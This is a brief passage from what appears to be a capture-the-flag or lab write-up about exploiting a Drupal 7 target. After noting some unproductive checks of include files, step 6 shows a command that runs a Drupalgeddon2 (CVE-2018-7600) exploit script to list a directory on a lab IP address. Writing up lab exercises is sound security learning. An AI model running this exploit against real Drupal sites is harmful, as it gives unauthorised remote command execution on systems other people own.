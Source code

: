 > There are some include file.
> I also check them one by one.
> but nothing found.

![](./IMG/11.png)

![](./IMG/12.png)

6. Following the above investigation, I enumerate the file in /includes directory

```
python drupa7-CVE-2018-7600.py -c 'ls -al includes' http://10.129.48.89
```